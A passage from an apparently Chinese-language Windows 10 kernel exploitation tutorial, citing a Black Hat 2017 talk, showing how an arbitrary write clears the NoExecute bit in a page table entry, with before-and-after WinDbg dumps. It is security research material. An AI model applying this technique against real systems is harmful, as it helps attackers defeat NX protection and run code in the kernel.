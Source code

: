PDF 链接：[https://www.blackhat.com/docs/us-17/wednesday/us-17-Schenk-Taking-Windows-10-Kernel-Exploitation-To-The-Next-Level%E2%80%93Leveraging-Write-What-Where-Vulnerabilities-In-Creators-Update.pdf](https://www.blackhat.com/docs/us-17/wednesday/us-17-Schenk-Taking-Windows-10-Kernel-Exploitation-To-The-Next-Level%E2%80%93Leveraging-Write-What-Where-Vulnerabilities-In-Creators-Update.pdf)

**去 NX 标志位：** 知道了目标地址的 PTE（ 0xFFFFEFFBC0000000），就可以为其去掉 NX 标志，这样就可以在这个区域执行代码了，思路是利用任意地址写将 PTE 指向的地址的 NoExecute 标志位修改为 0。

```
2: kd> db ffffeffb`c0000006
ffffeffb`c0000006  00 80 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................

0: kd> db FFFFEFFBC0000000+6    //修改后
ffffeffb`c0000006  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................

```

```
1: kd> dt _MMPTE_HARDWARE FFFFEFFBC0000000
nt!_MMPTE_HARDWARE
   +0x000 Valid            : 0y1
   +0x000 Dirty1           : 0y1
   +0x000 Owner            : 0y0
   +0x000 WriteThrough     : 0y0
   +0x000 CacheDisable     : 0y0
   +0x000 Accessed         : 0y1
   +0x000 Dirty            : 0y1
   +0x000 LargePage        : 0y0
   +0x000 Global           : 0y1
   +0x000 CopyOnWrite      : 0y0
   +0x000 Unused           : 0y0
   +0x000 Write            : 0y1
   +0x000 PageFrameNumber  : 0y000000000000000000000001001110110010 (0x13b2)
   +0x000 ReservedForHardware : 0y0000
   +0x000 ReservedForSoftware : 0y0000
   +0x000 WsleAge          : 0y0000
   +0x000 WsleProtection   : 0y000
   +0x000 NoExecute        : 0y1

0: kd> dt _MMPTE_HARDWARE FFFFEFFBC0000000    //修改后
nt!_MMPTE_HARDWARE
   +0x000 Valid            : 0y1
   +0x000 Dirty1           : 0y1
   +0x000 Owner            : 0y0
   +0x000 WriteThrough     : 0y0
   +0x000 CacheDisable     : 0y0
   +0x000 Accessed         : 0y1
   +0x000 Dirty            : 0y1
   +0x000 LargePage        : 0y0
   +0x000 Global           : 0y1
   +0x000 CopyOnWrite      : 0y0
   +0x000 Unused           : 0y0
   +0x000 Write            : 0y1
   +0x000 PageFrameNumber  : 0y000000000000000000000001001110110010 (0x13b2)
   +0x000 ReservedForHardware : 0y0000
   +0x000 ReservedForSoftware : 0y0000
   +0x000 WsleAge          : 0y0000
   +0x000 WsleProtection   : 0y000
   +0x000 NoExecute        : 0y0

```
